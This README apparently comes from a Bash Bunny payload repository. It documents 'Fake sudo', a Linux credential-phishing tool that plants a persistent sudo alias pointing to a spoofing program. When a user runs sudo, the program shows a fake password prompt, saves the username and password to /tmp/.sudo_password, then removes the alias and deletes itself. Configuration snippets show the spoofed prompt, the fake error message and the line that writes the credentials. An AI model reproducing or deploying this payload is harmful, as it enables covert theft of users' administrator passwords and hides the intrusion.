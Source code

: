 # Fake sudo

- Title:         Fake sudo
- Author:        TW-D
- Version:       1.0
- Target:        Linux
- Category:      Phishing

## Description

1) Copies the "sudo" command spoofing program to the user's home directory.
2) Defines a new persistent "sudo" alias with the file "~/.bash_aliases".
3) When the user "sudoer" executes the command "sudo" in a terminal, the spoofing program :
- __By default__ retrieves the username and password and writes them to "/tmp/.sudo_password".
- __But__ this behavior can be changed in line 21 of the "sudo-phishing.sh" file.
4) The spoofing program deletes the "sudo" alias. Then it deletes itself.

## Configuration

From "payload.txt" change the values of the following constant :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"

```

From "sudo-phishing.sh" change the values of the following constants if necessary :
```bash

readonly INPUT_MESSAGE="[sudo] password for ${USER}: "
readonly MAXIMUM_ATTEMPTS=3
readonly ERROR_MESSAGE="sudo: ${MAXIMUM_ATTEMPTS} incorrect password attempts"

```

From "sudo-phishing.sh", change the payload if you wish :
```bash
##
# <YOUR-PAYLOAD>
##
/usr/bin/echo "${USER}:${sudo_password}" > /tmp/.sudo_password
##
# </YOUR-PAYLOAD>
##
```

